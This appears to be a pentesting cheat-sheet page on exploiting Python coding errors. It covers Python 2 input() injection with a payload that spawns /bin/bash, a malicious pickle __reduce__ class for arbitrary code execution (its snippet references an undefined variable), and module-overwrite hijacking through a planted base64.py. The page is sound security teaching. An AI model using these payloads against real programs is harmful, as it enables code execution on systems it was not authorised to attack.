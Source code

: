 # Python

Python is a language powering an extraordinary number of applications, but here we're just going to focus on very common coding errors you're likely to find. These can be useful in cases of both web applications as well as local and exploiting any of these is incredibly context specific.

## python2 input

In python 2, the input function worked in an interesting manner. It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function. However, this also allowed any arbitrary code to be injected. In cases where you have a python 2 style input mechanism, simply write the following:

```python
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and raw\_input from python 2 replaced it.

## Pickle Deserialization

During pickle deserialization, it is possible to create a situation where arbitrary code is executed. This is because the reduce method defines how the object itself is de-serialized, and so will be executed when pickle.loads is called:

```python
import subprocess
class BadPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, (chars,))
print cPickle.dumps(BadPickle())
```

**Further Reading**   
[https://blog.nelhage.com/2011/03/exploiting-pickle/   
](https://blog.nelhage.com/2011/03/exploiting-pickle/%20)[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/   
](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/%20)[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)  


## Module Overwrite

Consider the following program:

```python
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```python
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```python
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules. Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

